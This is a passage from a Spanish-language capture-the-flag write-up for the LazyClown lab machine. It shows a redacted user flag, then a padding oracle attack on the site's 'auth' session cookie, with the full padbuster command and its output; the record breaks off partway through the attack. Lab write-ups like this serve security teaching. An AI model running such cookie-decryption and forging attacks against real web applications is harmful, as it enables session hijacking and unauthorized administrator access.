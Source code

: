 ```bash
    https://landscape.canonical.com/

Last login: Thu Jan 18 10:29:40 2018
mitsos@LazyClown:~$ 
```

Una vez en este punto, podremos ver la flag **user.txt** en /home/mitsos/user.txt:

```bash
mitsos@LazyClown:~$ cat /home/mitsos/user.txt 
d558XXXXXXXXXXXXXXXXXXX3fc
```
# User.txt - Método 2

Támbien hay otra forma de conseguir privilegios de administrador en la web, y es mediante un [padding oracle attack](https://sysfatal.github.io/oracle.html)

Para esto utilizaremos la herramienta `padbuster`.

La sintaxis de esta herramienta es **muy simple**, solo hay que especificar la **url**, la muestra cifrada en **CBC** y el número de bloques del cifrado

Lo primero que hay que hacer es **iniciar sesión** con un usuario que nosotros creemos:

![image](https://user-images.githubusercontent.com/67548295/132874656-f547e9f6-0aa8-4276-a59a-fb9eb2de1f0e.png)

Una vez hemos hecho esto, copiaremos la cookie de sesión con nombre `auth`:

![image](https://user-images.githubusercontent.com/67548295/132874838-ac35ddf8-e3b9-4ac2-9bf0-8d99ed813a45.png)

Ya con estos datos podemos **lanzar** el ataque, esto lo que va a hacer es intentar **descifrar la cookie** para poder ver su valor en texto plano, a partir de ahí podemos cambiar el valor de la cookie y volverla a **encriptar** para reemplazarla en el navegador

Ahora que ya tenemos todos los datos necesarios, ya podemos comenzar el ataque:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $padbuster http://10.10.10.18 IZWWp8QRpBJFZmQYXXXXXXXXFzs4qaU 8 -cookies auth=IZWWp8QRpBJFZmXXXXXXXXX1Fzs4qaU

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 978

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
```